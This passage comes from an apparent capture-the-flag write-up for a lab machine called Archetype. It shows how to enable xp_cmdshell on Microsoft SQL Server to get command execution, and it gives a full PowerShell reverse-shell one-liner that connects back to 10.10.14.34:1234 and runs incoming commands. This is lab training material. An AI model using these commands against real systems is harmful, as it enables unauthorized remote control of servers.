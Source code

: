 This is curious; particularly the `xp_cmdshell` ones...  We need a way to change this SQL shell into an RCE.  Searching `xp_cmdshell`, I found [this](https://www.mssqltips.com/sqlservertip/1020/enabling-xpcmdshell-in-sql-server/) on the web to help us do this!  Running
```sql
-- this turns on advanced options and is needed to configure xp_cmdshell
sp_configure 'show advanced options', '1'
RECONFIGURE
-- this enables xp_cmdshell
sp_configure 'xp_cmdshell', '1'
RECONFIGURE
```

Here is the output:
```
SQL> sp_configure 'show advanced options', '1'
[*] INFO(ARCHETYPE): Line 185: Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
SQL> RECONFIGURE
SQL> sp_configure 'xp_cmdshell', '1'
[*] INFO(ARCHETYPE): Line 185: Configuration option 'xp_cmdshell' changed from 1 to 1. Run the RECONFIGURE statement to install.
SQL> RECONFIGURE
SQL> xp_cmdshell "whoami"
output                                                                             

--------------------------------------------------------------------------------   

archetype\sql_svc                                                                  

NULL                                                                               

SQL>
```

Now we have a command shell!  We can then turn this into a nicer shell.  Our python command from Passage unfortunately does not work;
```
SQL> xp_cmdshell "python -c 'import pty; pty.spawn("/bin/bash")'"
[-] ERROR(ARCHETYPE): Line 1: Incorrect syntax near 'import'.
```

However, I searched online and found this, which will enumerate ports on the system (using powershell) so that we can get a reverse shell:
```powershell
$client = New-Object System.Net.Sockets.TCPClient("10.10.14.34", 1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "# "; $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.close()
```

We need to change the IP address to your `tun0` one:
```bash
$ ifconfig | grep -A 1 'tun0' | tail -1 | grep -o -P 'inet(.{0,15})' | grep -oE '((1?[0-9][0-9]?|2[0-4][0-9]|25[0-5])\.){3}(1?[0-9][0-9]?|2[0-4][0-9]|25[0-5])';
10.10.14.34
```
And the port to the one you want to use (e.g., `1234`).
